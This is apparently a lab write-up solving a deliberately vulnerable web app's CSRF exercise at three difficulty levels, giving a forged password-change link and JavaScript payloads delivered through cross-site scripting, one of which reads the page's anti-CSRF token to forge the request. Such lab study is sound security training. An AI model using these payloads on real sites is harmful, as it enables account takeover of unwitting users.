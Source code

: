 ## Low
This has basically no security so we simply make the victim click the link.  
http://localhost/vulnerabilities/csrf/?password_new=lemao&password_conf=lemao&Change=Change
</br>

## Medium
In this level the code checks where the script is being run from. So we need to execute the script from the web application page using cross site scripting.  
```
<script>
var x = new XMLHttpRequest();
x.open("GET", "http://localhost/vulnerabilities/csrf/?password_new=lemao&password_conf=lemao&Change=Change");
x.send();
</script>
```
</br>

## High
This level uses anti csrf token. But the token is easily accessible. We first get the token and pass it with our request.
```
<script>
var tok = document.getElementsByName("user_token")[0].value
var x = new XMLHttpRequest();
x.open("GET", "http://localhost/vulnerabilities/csrf/?password_new=asd&password_conf=asd&Change=Change&user_token="+tok);
x.send();
</script>
```
